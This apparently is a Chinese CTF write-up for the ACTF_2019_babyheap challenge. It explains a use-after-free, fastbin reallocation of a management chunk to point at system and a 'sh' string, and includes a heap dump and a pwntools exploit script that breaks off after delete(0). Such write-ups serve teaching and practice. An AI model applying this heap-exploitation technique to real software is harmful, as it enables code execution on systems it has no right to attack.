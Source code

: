 这个题的chunk结构如下

会生成一个chunk去指向对应的chunk的content地址后那个是add函数里面的地址。

```c
pwndbg> x/32gx 0xe16250
0xe16250:	0x0000000000000000	0x0000000000000021
0xe16260:	0x0000000000e16280	0x000000000040098a
0xe16270:	0x0000000000000000	0x0000000000000091
0xe16280:	0x0000000061616161	0x0000000000000000
0xe16290:	0x0000000000000000	0x0000000000000000
0xe162a0:	0x0000000000000000	0x0000000000000000

```

我们构建3个chunk 0 1 2

2号隔开topchunk

我们先释放0 再放1 进入fastbin 我们申请大小小于0x20的chunk这样就能把原本的管理chunk申请回来

先释放的是0所以是从0的那部分申请回来的，我们申请的时候写入sh字符串地址和后面地址修改他的fd bk指针

当我们去show(0)的时候就会去执行了

在这再说下UAF 就是因为没把指针置空，导致他还是会指向东西，这个指针还在，我们可以利用bin的分配原理

去修改他的指向内容达到利用目的

exp

```python
from pwn import *

#p=remote("node4.buuoj.cn",27239)
p=process('./ACTF_2019_babyheap')
elf=ELF('./ACTF_2019_babyheap')
context.log_level="debug"

def add(size,content):
	p.recvuntil("Your choice: ")
	p.sendline("1")
	p.recvuntil("Please input size: ")
	p.sendline(str(size))
	p.recvuntil("Please input content: ")
	p.send(content)

def delete(index):
	p.recvuntil("Your choice: ")
	p.sendline("2")
	p.recvuntil("Please input list index: ")
	p.sendline(str(index))

def show(index):
	p.recvuntil("Your choice: ")
	p.sendline("3")
	p.recvuntil("Please input list index: ")
	p.sendline(str(index))

bin_sh=0x602010
system=elf.plt['system']
print(hex(system))

add(0x80,"aaaa")
add(0x80,"bbbb")
add(0x80,"cccc")
#gdb.attach(p)

delete(0)
```